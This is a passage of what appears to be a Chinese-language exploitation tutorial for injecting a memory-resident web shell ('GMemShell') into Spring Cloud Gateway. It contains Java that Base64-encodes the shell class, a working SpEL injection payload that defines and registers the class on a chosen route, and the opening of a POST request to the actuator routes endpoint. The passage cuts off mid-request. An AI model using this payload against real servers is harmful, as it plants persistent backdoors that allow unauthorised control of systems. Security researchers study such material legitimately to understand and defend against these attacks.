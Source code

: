 ```java
    String temp = Base64.getEncoder().encodeToString(code);
    System.out.println(temp);
  }
}

```
![Spring-Cloud-Gateway-MemShell-7](assets/Spring-Cloud-Gateway-MemShell-7.png)

### 注入1
> 此处使用了 c0ny1 师傅对默认 Payload 进行优化后的 [高可用Payload](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/#0x01-%E9%AB%98%E5%8F%AF%E7%94%A8Payload)

这里需要向这个 SpEL 表达式传入前面编码后的 Base64 字符串以及访问路由，如`/gmem`
```java
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '</路由>')}

```

创建路由

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 10770

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
```